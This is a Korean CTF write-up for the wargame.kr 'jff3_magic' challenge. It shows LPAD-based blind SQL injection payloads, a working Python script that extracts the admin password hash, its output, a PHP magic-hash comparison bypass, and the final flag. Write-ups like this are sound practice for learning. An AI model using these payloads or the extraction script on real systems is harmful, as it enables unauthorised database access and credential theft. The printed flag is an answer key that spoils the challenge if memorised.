

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

javascript alert로 swp파일이 힌트라고 한다.


.index.php.swp을 받아서 열어보면 no에 GET method로 넘겨받아 custom_firewall 함수를 통해 필터링한 뒤 쿼리를 한다. 여기가 SQLi 포인트로 생각하면 될것 같다.


no에 GET method로 넘겨줄때마다 뭣같은 alert가 귀찮게 한다. javascript를 꺼버리자.


우선 ?no=1로 하였을 땐, Comma라는 아이디가 나왔다.


union select, sleep 쿼리가 모두 필터링되는 듯 하다.


ID/PW를 guest/guest로 입력하고 Submit버튼을 눌렀을 때, 데이터가 나오고 해쉬의 형태로 보인다.


haval128,5라는 해쉬 알고리즘인가보다.



LPAD function을 이용한 쿼리를 날려본다.

query : ?no=-1 || LPAD(pw,1,'')="0"

* no가 0(admin), 1(Comma), 2(Cd80), 3(Orang)이면 or 다음에 나오는 쿼리가 참인지 상관없이 참이기 때문에 0~3을 벗어난 값을 주었다.

* LPAD의 첫번째 인자를 pw로 어떻게 알았냐면, guessing인 것 같다...(타 라업 참고하였음...)


값을 다르게 줘보면 false || false여서 아무것도 안뜬다.

query : ?no=-1 || LPAD(pw,1,'')="a"


바로 BlindSQLi Python Script짜고 결과를 확인한다.

```python
import urllib
import urllib.request
import string

url         = 'http://wargame.kr:8080/jff3_magic/?no=-1'
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
ascii_set   = string.ascii_lowercase+string.digits
hash_pw     = ''
for i in range(32):
    print(i)
    for a in ascii_set:
        payload     = urllib.parse.quote(' || LPAD(pw, {}, \'\')="{}"'.format(i + 1, hash_pw + a))
        request     = urllib.request.Request(url+payload, headers = headers)
        response    = urllib.request.urlopen(request)
        if 'admin' in response.read().decode():
            hash_pw += a
            break
print('pw ({}) = {}'.format(len(hash_pw), hash_pw))

[Output]
pw (32) = 0e531247968804642688052356464312
```

admin의 암호의 해쉬값을 보면 0e+Only 숫자이다. 게다가 해쉬 알고리즘(haval128,5)을 알고있다.

바로 Magic Hash값을 찾아서 넣으면 FLAG를 획득할 수 있다.

> [Magic Hash](https://github.com/2jinu/etc/blob/main/Magic%20Hash/Magic%20Hash.md)

# **FLAG**

**9414edf3941f29f28af761c55e5f950bb35f8262**